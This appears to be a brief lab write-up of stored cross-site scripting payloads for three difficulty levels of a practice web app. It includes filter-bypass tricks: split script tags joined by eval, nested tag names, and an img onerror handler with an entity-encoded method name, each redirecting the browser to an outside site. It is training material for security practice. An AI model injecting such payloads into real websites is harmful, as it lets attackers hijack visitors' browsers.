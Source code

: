# XSS (Stored)

## low

```
<script>z="window.location.replace"</script>

<script>z+="('http://www.baidu.com')"</script>

<script>eval(z)</script>
```

## medium

length limitation is performed at frontend

```
<scr<script>ipt>window.location.replace("http://www.baidu.com")</script>
```

## high

bypass `preg_replace("s*c*r*p*t")`

```
<img src onerror="window.location.re&#112;lace('http://www.baidu.com')">
```
